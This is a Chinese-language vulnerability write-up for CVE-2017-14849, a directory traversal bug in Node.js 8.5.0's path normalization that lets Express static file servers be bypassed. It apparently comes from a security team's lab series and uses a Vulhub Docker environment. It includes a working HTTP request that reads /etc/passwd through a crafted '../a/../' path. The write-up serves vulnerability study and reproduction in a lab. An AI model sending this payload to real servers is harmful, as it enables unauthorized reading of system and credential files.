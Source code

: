 # CVE-2017-14849

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Node.js 目录穿越漏洞



## 0x01 漏洞描述

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 0x02 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

![image-20220228104418600](./image/202202281044680.png)

## 0x03 漏洞复现

发送如下数据包，即可读取passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220228104536521](./image/202202281045638.png)
